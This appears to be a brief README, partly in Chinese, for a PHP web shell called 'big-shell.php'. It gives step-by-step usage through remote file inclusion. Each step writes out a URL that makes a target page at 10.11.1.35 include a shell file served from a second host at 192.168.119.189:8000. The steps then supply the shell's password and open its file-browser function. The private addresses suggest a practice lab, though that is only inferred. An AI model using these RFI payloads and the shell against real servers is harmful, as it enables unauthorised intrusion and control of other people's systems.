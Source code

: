 # big-shell.php
Usage
RFI:
- 1. `http://10.11.1.35/section.php?page=http://192.168.119.189:8000/test.txt`，then input the passwd `pass`
- 2. 这时候因为是 RFI 包含的此大马，所以页面会自动重载为section.php，需要手动再次进入：`http://10.11.1.35/section.php?page=http://192.168.119.189:8000/test.txt`，然后就可以看到大马的页面
- 3. 进入fbrowser 需要手动输入：`http://10.11.1.35/section.php?page=http://192.168.119.189:8000/test.txt&act=fbrowser`
